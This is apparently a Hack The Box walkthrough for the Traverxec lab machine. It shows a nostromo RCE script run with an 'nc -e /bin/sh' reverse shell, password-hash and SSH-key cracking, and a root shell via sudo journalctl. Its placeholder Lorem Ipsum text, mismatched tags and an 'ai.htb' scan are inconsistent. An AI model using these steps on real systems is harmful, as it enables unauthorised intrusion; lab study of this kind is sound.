 ```yaml
---
layout: single
title: Traverxec - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-11-18
classes: wide
header:
  teaser: /assets/images/htb-writeup-traverxec/traverxec_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-traverxec/traverxec_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. nmap -Pn -sC -sV -n ai.htb
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
    | ssh-hostkey:
    |   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
    |   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
    |_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
    80/tcp open  http    nostromo 1.9.6
    |_http-server-header: nostromo 1.9.6
    |_http-title: TRAVERXEC
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  nmap -Pn -sV -n -p- traverxec.htb
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
    80/tcp open  http    nostromo 1.9.6
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  nmap -Pn -sV -n -sU traverxec.htb
    PORT     STATE         SERVICE  VERSION
    5353/udp open|filtered zeroconf

2. Enum with Dirb and Nikto, also dirb -X .html for html-extension-files
    .. Server: nostromo 1.9.6


3. Googling nostromo 1.9.6 there is a known RCE vuln (CVE-2019-16278). Download the script and execute.
    root@p3:/opt/htb/machines/traverxec# ./cve-2019-16278.sh traverxec.htb 80 nc -e /bin/sh 10.10.14.10 4488

    root@p3:/opt/shells# nc -lvnp 4488
      listening on [any] 4488 ...
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.165] 57834
      id
      uid=33(www-data) gid=33(www-data) groups=33(www-data)

4. Upgrade the shell
    python -c 'import pty;pty.spawn("/bin/bash")'
    ctrl + z
    stty raw -echo
    fg
    <ENTER>
    <ENTER>
    export TERM=xterm

    www-data@traverxec:/home$ cd david/
    www-data@traverxec:/home/david$ ls -al
    ls: cannot open directory '.': Permission denied

5. Looking for creds for David, start by looking at the webserver - /var/nostromo/conf/
    www-data@traverxec:/var/nostromo/conf$ ls -al
      total 20
      drwxr-xr-x 2 root daemon 4096 Oct 27 16:12 .
      drwxr-xr-x 6 root root   4096 Oct 25 14:43 ..
      -rw-r--r-- 1 root bin      41 Oct 25 15:20 .htpasswd
      -rw-r--r-- 1 root bin    2928 Oct 25 14:26 mimes
      -rw-r--r-- 1 root bin     498 Oct 25 15:20 nhttpd.conf
    www-data@traverxec:/var/nostromo/conf$ cat .htpasswd
      david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

    The password looks like a md5crypt (hash-mode 500), according to hashcat examples page.

6. Crack the hash using hashcat.
    root@p3:/opt/htb/machines/traverxec# hashcat -a0 -m500 hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt --force
      Session..........: hashcat
      Status...........: Cracked
      Hash.Type........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
      Hash.Target......: $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
      Time.Started.....: Mon Nov 18 10:41:10 2019 (6 secs)
      Time.Estimated...: Mon Nov 18 10:41:16 2019 (0 secs)
      Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
      Guess.Queue......: 1/1 (100.00%)
      Speed.#1.........:  1778.3 kH/s (13.23ms) @ Accel:256 Loops:125 Thr:32 Vec:1
      Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
      Progress.........: 10911744/14344385 (76.07%)
      Rejected.........: 0/10911744 (0.00%)
      Restore.Point....: 10616832/14344385 (74.01%)
      Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:875-1000
      Candidates.#1....: Sabo2008 -> LilHaiti1
      Hardware.Mon.#1..: Temp: 56c Util: 67% Core:1635MHz Mem:6000MHz Bus:16
    root@p3:/opt/htb/machines/traverxec# cat cracked.txt
      $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me

    NOTE: Creds david:Nowonly4me

7. The creds above doesn't seem to be usable anywhere, so looking further in the config-file we find that homedirs are set
   Browsing to http://traverxec.htb/~david/ gives us a landing page where we can't do anything. This landing page is located
   as specified within the nostromo configuration file - /home/david/public_www.

   Trying to browse it locally however gives us another result.

   root@p3:/opt/htb/machines/traverxec# nc -lvnp 4488

    www-data@traverxec:/usr/bin$ export TERM=xterm
    www-data@traverxec:/usr/bin$ ls -alR /home/david/public_www/
    /home/david/public_www/:
      total 16
      drwxr-xr-x 3 david david 4096 Oct 25 15:45 .
      drwx--x--x 5 david david 4096 Oct 25 17:02 ..
      -rw-r--r-- 1 david david  402 Oct 25 15:45 index.html
      drwxr-xr-x 2 david david 4096 Oct 25 17:02 protected-file-area

    /home/david/public_www/protected-file-area:
      total 16
      drwxr-xr-x 2 david david 4096 Oct 25 17:02 .
      drwxr-xr-x 3 david david 4096 Oct 25 15:45 ..
      -rw-r--r-- 1 david david   45 Oct 25 15:46 .htaccess
      -rw-r--r-- 1 david david 1915 Oct 25 17:02 backup-ssh-identity-files.tgz
    www-data@traverxec:/usr/bin$

8. Extract the .tgz to /dev/shm and recover the private SSH-key
    www-data@traverxec:/dev/shm$ tar -xvzf /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
      home/david/.ssh/
      home/david/.ssh/authorized_keys
      home/david/.ssh/id_rsa
      home/david/.ssh/id_rsa.pub

9. Copy id_rsa locally, change it to hash-format using sshng2john, and then crack it.
    root@p3:/usr/share/john# ./sshng2john.py /opt/htb/machines/traverxec/id_rsa > /opt/htb/machines/traverxec/id_rsa.hash
    root@p3:/opt/htb/machines/traverxec# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
      Using default input encoding: UTF-8
      Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
      Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
      Cost 2 (iteration count) is 1 for all loaded hashes
      Will run 12 OpenMP threads
      Note: This format may emit false positives, so it will keep trying even after
      finding a possible candidate.
      Press 'q' or Ctrl-C to abort, almost any other key for status
      hunter           (/opt/htb/machines/traverxec/id_rsa)
      1g 0:00:00:01 DONE (2019-11-18 15:45) 0.5291g/s 7588Kp/s 7588Kc/s 7588KC/s  0125457423 ..*7¡Vamos!
      Session completed

10. Login with cracked creds (david:hunter) and grab user.txt
    root@p3:/opt/htb/machines/traverxec# ssh david@traverxec.htb -i id_rsa
    Enter passphrase for key 'id_rsa':
    Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64

    david@traverxec:~$ cat user.txt
      7db0****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Enumerating the homedir of david and we find a script for statistics and data collection, server-stats.sh.
   Looking through the code we can see that they execute a line as sudo
      /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat

2. The command journalctl is running as root, and it used with less - that is interactive.
   Running the command by ourselves gives us interaction, reading on gtfobins we can create a shell here by typing !/bin/sh

   david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
     -- Logs begin at Tue 2019-11-19 06:23:10 EST, end at Tue 2019-11-19 07:53:45 EST. --
     Nov 19 07:09:13 traverxec sudo[2226]: pam_unix(sudo:auth): conversation failed
     Nov 19 07:09:13 traverxec sudo[2226]: pam_unix(sudo:auth): auth could not identify password for [www-data]
     Nov 19 07:09:13 traverxec sudo[2226]: www-data : command not allowed ; TTY=pts/3 ; PWD=/var/nostromo ; USER=root ; COMMAND=list
     Nov 19 07:18:33 traverxec su[2387]: pam_unix(su:auth): authentication failure; logname= uid=33 euid=0 tty=pts/3 ruser=www-data rhost=
     Nov 19 07:18:36 traverxec su[2387]: FAILED SU (to bin) www-data on pts/3
     !/bin/sh
   # id
     uid=0(root) gid=0(root) groups=0(root)
   # cat /root/root.txt
     9aa3****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Journalctl
  https://gtfobins.github.io/gtfobins/journalctl/
